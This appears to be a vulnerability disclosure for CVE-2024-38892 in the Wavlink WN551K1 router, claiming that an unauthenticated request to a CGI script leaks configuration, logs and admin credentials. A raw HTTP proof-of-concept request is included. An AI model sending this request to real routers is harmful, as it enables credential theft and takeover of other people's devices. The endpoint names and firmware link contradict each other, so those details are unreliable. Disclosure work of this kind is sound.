 # Wavlink WN551K1  /cgi-bin/ExportAllSettings.sh Sensitive information leakage

Product: Wavlink WN551K1

Manufacturer's website information：https://www.wavlink.com/en_us/index.html

Firmware download address ：[https://files.wavlink.com/fw/mesh/WN551K1%2CK2%2CK3-C-WAVLINK-WO-20210427-1087985](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-38892

### Analysis

The component /cgi-bin/ExportLogs.sh of WAVLINK WN551K1 k2 k3 has an access control issue that allows an unauthenticated attacker to download configuration data and log files and obtain administrator credentials. 	

![image-20240624091755856](./image-20240624091755856.png)

### POC

```python
GET /cgi-bin/ExportLogs.sh HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Upgrade-Insecure-Requests: 1
```

![image-20240624091827803](./image-20240624091827803.png)
